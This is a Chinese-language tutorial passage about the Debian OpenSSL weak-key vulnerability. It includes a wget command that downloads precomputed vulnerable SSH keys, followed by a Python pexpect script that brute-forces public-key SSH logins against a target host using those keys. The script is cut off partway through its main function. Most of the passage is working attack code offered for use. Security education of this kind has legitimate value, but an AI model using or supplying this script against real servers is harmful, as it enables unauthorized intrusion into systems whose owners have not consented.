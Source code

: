 Rapid7的CSO和首席架构师HD Moore在两小时内生成了所有的1024位和2048位算法的可能的密钥。
    而且，他把结果放到 http://digitaloffense.net/tools/debianopenssl/ 中，使大家都可以下载利用。

```
wget http://digitaloffense.net/tools/debian-openssl/debian_ssh_dsa_1024_x86.tar.bz2
```

这个错误在两天之后才被一个安全研究员发现。结果，可以肯定相当多的服务器上都有这个有漏洞的SSH服务。
如果我们能创建一个利用此漏洞的工具就太棒了。
通过访问密钥空间，可以写一个简短的Python脚本逐一暴力尝试32767个可能的密钥，
以此来登录一个不用密码，而是使用公钥加密算法旧进行认证的SSH服务器。
在使用密钥登录SSH时，我们需要键入 ssh user@host -i keyfile -o PasswordAuthenication=no 格式的一条命令。


```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
import pexpect
import optparse
import os
from threading import *

maxconnections = 5
connectionlock = BoundedSemaphore(value=maxconnections)
stop = False
fails = 0


def connect(user, host, keyfile, release):
    global stop
    global fails
    try:
        perm_denied = 'Permission denied'
        ssh_newkey = 'Are you sure you want to continue'
        conn_closed = 'Connection closed by remote host'
        opt = ' -o PasswordAuthentication=no'
        connStr = 'ssh ' + user + '@' + host + ' -i ' + keyfile + opt
        child = pexpect.spawn(connStr)
        ret = child.expect([pexpect.TIMEOUT, perm_denied, ssh_newkey, conn_closed, '$', '#', ])
        if ret == 2:
            print('[-] Adding Host to ~/.ssh/known_hosts')
            child.sendline('yes')
            connect(user, host, keyfile, False)
        elif ret == 3:
            print('[-] Connection Closed By Remote Host')
            fails += 1
        elif ret > 3:
            print('[+] Success. ' + str(keyfile))
            stop = True
    finally:
        if release:
            connectionlock.release()


def main():
    parser = optparse.OptionParser('usage %prog -H <target host> -u <user> -d <directory>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-d', dest='passDir', type='string', help='specify directory with keys')
    parser.add_option('-u', dest='user', type='string', help='specify the user')

    (options, args) = parser.parse_args()
    host = options.tgtHost
    passDir = options.passDir
    user = options.user

    if host == None or passDir == None or user == None:
```